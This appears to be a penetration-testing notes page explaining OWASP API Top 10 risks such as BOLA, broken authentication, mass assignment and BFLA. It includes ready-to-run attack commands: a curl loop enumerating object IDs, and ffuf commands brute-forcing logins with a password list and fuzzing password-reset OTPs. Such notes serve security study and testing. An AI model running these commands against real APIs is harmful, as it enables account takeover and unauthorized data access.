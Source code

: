 ```yaml
---
layout: default
title: API attacks
permalink: /Web/API/
---
```


# OWASP API Top 10 Security Risks using a RESTful web API

## Broken Object Level Authorization (BOLA)
Web APIs allow users to request data or records by sending various parameters, including unique identifiers such as Universally Unique Identifiers (UUIDs), also known as Globally Unique Identifiers (GUIDs), and integer IDs. Failing to properly verify that a user has permission to view a specific resource through object-level authorization mechanisms can lead to security vulnerabilities.
BOLA also known as an Insecure Direct Object Reference (IDOR) vulnerability.

Mass abuse BOLA from terminal:
```
for ((i=1; i<=20; i++));
do curl -s -w "\n" -X 'GET' \
'http://$ip:$port/endpoint/'$i'' \
-H 'accept: application/json' \
-H 'Authorization: Bearer eyJhbG<SNIP>' | jq;
done
```

## Broken Authentication
No rate-limiting on the endpoint, so brute-forcing is possible.
```
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://$ip:$port/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
```
### Brute-forcing OTPs and Answers of Security Questions
If brute-forcing passwords is infeasible due to strong password policies, we can attempt to brute-force OTPs or answers to security questions to reset passwords.
Send a password reset and then fuzz the OTP:
```
ffuf -u http://$ip:$port/api/v1/authentication/customers/passwords/resets \
-X POST \
-H "accept: application/json" \
-H "Content-Type: application/json" \
-d '{"Email":"$email","OTP":"FUZZ","NewPassword":"123456"}' \
-w /opt/useful/seclists/Fuzzing/4-digits-0000-9999.txt
```
## Broken Object Property Level Authorization
### Excessive Data Exposure
Example: Exposure of Sensitive Information Due to Incompatible Policies. <br>
It is typical for e-commerce marketplaces to allow customers to view supplier details. However, if the response after invoking the `/api/v1/suppliers GET` endpoint includes also the email and phoneNumber fields of the suppliers, then costumers can circumvent the marketplace entirely and contact suppliers directly to purchase goods (at a discounted price).

### Mass Assignment
Example: Improperly Controlled Modification of Dynamically-Determined Object Attributes. <br>
Maybe the `/api/v1/supplier-companies PATCH` endpoint allows sending a value for the isExemptedFromMarketplaceFee field, making the a company not get included in the companies required to pay the marketplace fee.

## Unrestricted Resource Consumption
A web API is vulnerable to Unrestricted Resource Consumption if it fails to limit user-initiated requests that consume resources such as network bandwidth, CPU, memory, and storage. 
We might be able to upload files without proper limitations or spamming an endpoint uncontrollably.

## Broken Function Level Authorization (BFLA)
A web API is vulnerable to BFLA if it allows unauthorized or unprivileged users to interact with and invoke privileged endpoints, granting access to sensitive operations or confidential information.


